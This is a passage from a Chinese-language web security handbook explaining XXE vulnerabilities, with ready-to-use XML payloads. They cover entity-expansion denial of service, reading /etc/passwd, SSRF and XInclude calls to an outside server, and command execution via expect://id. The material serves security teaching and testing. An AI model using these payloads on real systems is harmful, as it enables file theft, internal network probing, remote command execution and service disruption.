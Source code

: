 # XXE

### 4.10.3. XXE

当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。

### 4.10.4. 攻击方式

#### 4.10.4.1. 拒绝服务攻击

```
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。

#### 4.10.4.2. 文件读取

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

#### 4.10.4.3. SSRF

```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>
```

#### 4.10.4.4. RCE

```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

#### 4.10.4.5. XInclude

```
<?xml version='1.0'?>
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>
```

***

